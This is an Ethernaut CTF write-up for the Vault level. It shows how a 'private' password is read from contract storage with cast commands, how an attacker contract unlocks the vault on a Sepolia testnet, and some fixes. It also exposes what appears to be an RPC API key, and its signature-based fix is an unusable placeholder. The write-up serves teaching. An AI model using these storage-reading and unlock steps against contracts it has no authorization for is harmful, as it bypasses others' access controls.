


> **⚠️ EDUCATIONAL PURPOSE ONLY**
> This document is part of the [Ethernaut CTF](https://ethernaut.openzeppelin.com/) educational security challenges.
> The techniques described here are for **authorized security testing and learning purposes only**.
> **DO NOT** use these methods on contracts you don't own or without explicit authorization.

---

# Level 8 - Vault: Exploit Report

## Vulnerability Summary

The Vault contract uses a `private` variable to store the password, falsely assuming this provides security. However, **the blockchain is completely transparent** — all storage data is publicly readable, regardless of variable visibility modifiers.

**Severity:** CRITICAL
**Attack Vector:** Off-chain storage reading + Direct function call
**Impact:** Complete bypass of password protection

---

## Root Cause Analysis

### 1. Misunderstanding of "Private" in Solidity

```solidity
contract Vault {
    bool public locked;
    bytes32 private password;  // ❌ Still visible on-chain!

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

**Critical Misconception:**
- `private` = **Not accessible from other contracts** ✓
- `private` = **NOT encrypted** ❌
- `private` = **NOT hidden from the blockchain** ❌

### 2. Storage Layout is Public

Every contract's storage is organized in sequential slots that are **publicly queryable**:

```
Vault Storage Layout:
├─ Slot 0: locked (bool) = true/false
└─ Slot 1: password (bytes32) = 0x412076657279...  ← READABLE!
```

### 3. EVM Storage Access

The Ethereum protocol provides multiple ways to read any storage slot:

| Method | Access | Cost |
|--------|--------|------|
| `cast storage` | Direct | Free (read-only) |
| `ethers.getStorageAt()` | Direct | Free (read-only) |
| RPC `eth_getStorageAt` | Direct | Free (read-only) |
| Smart contract | Only if public | Gas |

**No contract can prevent others from reading its storage.**

---

## Attack Flow Diagram



---

## Storage Transparency Diagram



---

## How the Vulnerability Was Discovered

### Step 1: Read the Contract Code

```solidity
contract Vault {
    bytes32 private password;  // Flagged immediately!
}
```

**Red Flag:** The password is stored as plaintext in `private` storage. This is a common misconception in smart contract development.

### Step 2: Understand Storage Layout

Solidity allocates storage sequentially:
- Slot 0: `bool locked` (1 byte, padded to 32)
- Slot 1: `bytes32 password` (32 bytes)

### Step 3: Query Storage Directly

```bash
# Read storage slot 1 from the Vault contract
cast storage 0xB43dD192Db629aD3f4D486D82F3251d8fCd831F2 1 \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT
```

**Output:** `0x412076657279207374726f6e67207365637265742070617373776f7264203a29`

### Step 4: Decode Hex to Text

```
Hex:  0x412076657279207374726f6e67207365637265742070617373776f7264203a29
Text: "A very strong secret password :)"
```

---

## Exploitation Process

### Step 1: Deploy VaultAttacker Contract

The VaultAttacker serves as an intermediary to call the `unlock()` function:

```solidity
contract VaultAttacker {
    address public target;

    constructor(address _target) {
        target = _target;
    }

    function attack(bytes32 _password) public {
        IVault(target).unlock(_password);
    }
}
```

**Why needed:**
- Can encode the password as function call data
- Simplifies transaction broadcast
- Demonstrates the attack flow

### Step 2: Compile and Deploy

```bash
forge build
forge script script/levels/08_Vault/DeployVaultAttacker.s.sol:DeployVaultAttacker \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT \
  --private-key $PRIVATE_KEY \
  --broadcast
```

### Step 3: Read Password from Storage

```bash
PASSWORD=$(cast storage 0xB43dD192Db629aD3f4D486D82F3251d8fCd831F2 1 \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT)

echo $PASSWORD
# Output: 0x412076657279207374726f6e67207365637265742070617373776f7264203a29
```

### Step 4: Call attack() with the Password

```bash
cast send [ATTACKER_ADDRESS] "attack(bytes32)" \
  "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT \
  --private-key $PRIVATE_KEY
```

### Step 5: Verify Unlock

```bash
cast call 0xB43dD192Db629aD3f4D486D82F3251d8fCd831F2 "locked()" \
  --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT

# Output: 0x0 (false) = UNLOCKED ✓
```

---

## Key Insight: Why "Private" Doesn't Mean "Secret"

### Solidity Access Control (Compile-time)

```solidity
contract Vault {
    bytes32 private password;  // Only accessible here

    function getPassword() public view returns (bytes32) {
        return password;  // ✓ Allowed (inside contract)
    }
}

contract Other {
    Vault vault;

    function readPassword() public view returns (bytes32) {
        return vault.password;  // ❌ Compile error!
    }
}
```

**Result:** `private` prevents **compile-time access** from other contracts.

### Blockchain Storage Access (Runtime)

```javascript
// But anyone can read storage at runtime
const password = await provider.getStorageAt(
  vaultAddress,
  1  // storage slot 1
);
console.log(password);  // ✓ Works perfectly!
```

**Result:** Storage data is **public at runtime** on the blockchain.

### The Distinction

| Layer | Private Keyword | Reality |
|-------|-----------------|---------|
| **Source Code** | Prevents access ✓ | Enforced by compiler |
| **Bytecode** | Blocks access ✓ | No getter function generated |
| **Storage** | No protection ❌ | Any node can read |
| **Blockchain** | Completely visible ❌ | Network broadcasts all state |

---

## Proof of Exploit

### Before Attack
```bash
$ cast call 0xB43dD192Db629aD3f4D486D82F3251d8fCd831F2 "locked()" \
    --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT

0x0000000000000000000000000000000000000000000000000000000000000001
# true (locked)

$ cast storage 0xB43dD192Db629aD3f4D486D82F3251d8fCd831F2 1 \
    --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT

0x412076657279207374726f6e67207365637265742070617373776f7264203a29
# "A very strong secret password :)"  ← PASSWORD EXPOSED
```

### Exploit Executed
```bash
$ cast send [ATTACKER_ADDRESS] "attack(bytes32)" \
    "0x412076657279207374726f6e67207365637265742070617373776f7264203a29" \
    --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT \
    --private-key $PRIVATE_KEY

transactionHash: 0x... (success) ✓
```

### After Attack
```bash
$ cast call 0xB43dD192Db629aD3f4D486D82F3251d8fCd831F2 "locked()" \
    --rpc-url https://eth-sepolia.g.alchemy.com/v2/3NWC-_k0lKo09jP1siznT

0x0000000000000000000000000000000000000000000000000000000000000000
# false (UNLOCKED) ✓ SUCCESS
```

---

## Simple Remediation Example

### ❌ Current Implementation (Vulnerable)

```solidity
contract Vault {
    bytes32 private password;  // EXPOSED on-chain
    bool public locked;

    constructor(bytes32 _password) {
        password = _password;
        locked = true;
    }

    function unlock(bytes32 _password) public {
        if (password == _password) {
            locked = false;
        }
    }
}
```

### ✅ Remediation Option 1: Hash-Based Verification

```solidity
contract VaultSecure {
    bytes32 private passwordHash;  // Only store hash
    bool public locked;

    constructor(bytes32 _password) {
        // Hash the password before storing
        passwordHash = keccak256(abi.encodePacked(_password));
        locked = true;
    }

    function unlock(bytes32 _password) public {
        // Compare hashes, not passwords
        if (keccak256(abi.encodePacked(_password)) == passwordHash) {
            locked = false;
        }
    }
}
```

**Why this helps:**
- Even if someone reads `passwordHash` from storage, they can't reverse the hash
- Still vulnerable to brute force (weak passwords)
- Better protection than plaintext

### ✅ Remediation Option 2: Off-Chain Authentication

```solidity
contract VaultSecure {
    bool public locked;
    address public owner;

    constructor() {
        locked = true;
        owner = msg.sender;
    }

    function unlock(bytes calldata signature) public {
        // Owner signs off-chain and submits signature
        bytes32 message = keccak256("unlock");
        require(recoverSigner(message, signature) == owner, "Invalid signature");
        locked = false;
    }

    function recoverSigner(bytes32 message, bytes calldata signature)
        internal pure returns (address) {
        // ECDSA recovery (simplified)
        // In production: use OpenZeppelin's ECDSA library
        return address(0);  // Placeholder
    }
}
```

**Why this works:**
- Password never stored on-chain
- Authentication via cryptographic signature
- Owner controls unlock process off-chain

---

## Key Takeaways

| Concept | Implication |
|---------|-------------|
| **"Private" only affects source code visibility** | Storage is still public at runtime |
| **Blockchain is completely transparent** | Assume all data is public |
| **No on-chain security through obscurity** | Never store secrets on-chain |
| **Plaintext passwords are always vulnerable** | Use hashing or off-chain authentication |
| **Storage layout is predictable** | Attackers can calculate exact slot positions |

---

## Why This Matters in Real Applications

### Real-World Scenario 1: Private Keys (Critical!)

```solidity
// ❌ NEVER do this!
contract Wallet {
    bytes32 private privateKey;  // Anyone can read from storage!
}
```

If someone stores a private key on-chain (even marked private), anyone can steal it.

### Real-World Scenario 2: API Keys

```solidity
// ❌ NEVER do this!
contract OracleClient {
    string private apiKey;  // Exposed to all blockchain observers!
}
```

All sensitive data should be managed off-chain.

### Real-World Scenario 3: Access Control

```solidity
// ⚠️ Be careful with whitelist storage
contract AccessControl {
    mapping(address => bool) private whitelist;  // Private but readable!
}
```

The `private` keyword doesn't hide the mapping data.

---

## References

- [Solidity Documentation: State Variables Visibility](https://docs.soliditylang.org/en/latest/contracts.html#state-variable-visibility)
- [Ethereum: Storage Reading via eth_getStorageAt](https://ethereum.org/en/developers/docs/apis/json-rpc/#eth_getstorageat)
- [Ethernaut Level 8 - Vault](https://ethernaut.openzeppelin.com/level/8)
- [SWC-111: Use of Deprecated Solidity Functions](https://swcregistry.io/docs/SWC-111)

---

## Challenge Completed ✓

```
┌──────────────────────────────────────────────┐
│         VAULT EXPLOIT SUCCESSFUL             │
├──────────────────────────────────────────────┤
│                                              │
│ Target Contract:                             │
│   0xB43dD192Db629aD3f4D486D82F3251d8fCd831F2│
│                                              │
│ Password Read From Storage Slot 1:           │
│   0x412076657279207374726f6e67...           │
│   Decoded: "A very strong secret password :)" │
│                                              │
│ Vault Status: UNLOCKED ✓                     │
│   locked() = false                           │
│                                              │
│ Attack Method:                               │
│   1. Read storage slot 1 via RPC             │
│   2. Decode hex to get password              │
│   3. Deploy VaultAttacker contract           │
│   4. Call attack(password)                   │
│   5. Vault automatically unlocked            │
│                                              │
│ Lesson Learned:                              │
│   Blockchain is transparent. Never store     │
│   secrets on-chain, even in private storage. │
│                                              │
└──────────────────────────────────────────────┘
```

---

## Execution Timeline

**Step 1:** Analyzed Vault contract code
- Identified `private password` variable as vulnerable
- Understood storage layout

**Step 2:** Read storage directly
- Command: `cast storage 0xB43dD192... 1`
- Result: `0x412076657279...`

**Step 3:** Decoded password
- Converted hex to ASCII: "A very strong secret password :)"

**Step 4:** Deployed VaultAttacker
- Created intermediary contract for function calls
- Stored target Vault address

**Step 5:** Called attack()
- Passed the read password as bytes32
- Vault's unlock() function executed successfully

**Step 6:** Verified success
- Checked `locked()` returned `false`
- Challenge completed ✓

**Total Time:** Minutes
**Proof:** `cast call` returns `false` for locked() function

---

## Files Used

```
src/levels/08_Vault/
├── Vault.sol              (Target contract)
├── VaultAttacker.sol      (Exploit contract)
├── README.md              (Challenge description)
└── EXPLOIT_REPORT.md      (This report)

script/levels/08_Vault/
├── DeployVaultAttacker.s.sol  (Deployment script)
└── attack.sh                   (Attack automation script)
```

**Status:** ✅ CHALLENGE COMPLETE
